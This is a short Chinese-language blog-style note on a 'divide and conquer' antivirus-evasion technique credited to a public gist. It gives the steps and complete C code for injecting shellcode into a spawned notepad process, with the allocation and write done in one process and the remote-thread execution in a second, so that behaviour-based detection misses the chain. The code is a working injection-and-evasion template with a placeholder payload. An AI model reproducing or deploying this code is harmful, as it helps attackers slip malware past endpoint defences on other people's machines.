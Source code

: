 # Divide and Conquer

##  简介

看到了一种比较有意思的手法，现在的杀软会关注函数的执行链， [theevilbit](https://gist.github.com/theevilbit)公开了一种通过不同进程分离执行API，绕过基于行为的AV检测。

## 流程

1. 创建傀儡进程
2. 向傀儡进程写入payload
3. 创建同文件进程传入pid
4. 通过pid打开傀儡句柄
5. 创建远程线程

## 代码

```text


#include <stdio.h>
#include <windows.h>
unsigned char shellcode[] =
"\xfc78\x00";

int main(int argc, char* argv[]) {

    if (argv[1]==NULL)
    {
        STARTUPINFOA si = { 0 };
        si.cb = sizeof(si);
        PROCESS_INFORMATION pi = { 0 };

        CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
        VirtualAllocEx(pi.hProcess, (PVOID)0x0000480000000000, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(pi.hProcess, (PVOID)0x0000480000000000, shellcode, sizeof(shellcode), NULL);

        char cmd[MAX_PATH] = {0};
        wsprintfA(cmd, "%s %d", argv[0], pi.dwProcessId);

        CreateProcessA(NULL, (LPSTR)cmd, NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
    }
    else
    {
        HANDLE hProcess =  OpenProcess(PROCESS_ALL_ACCESS, NULL, atoi(argv[1]));
        CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)0x0000480000000000, 0, 0, 0);
    }
    
    
    return 0;
}

```


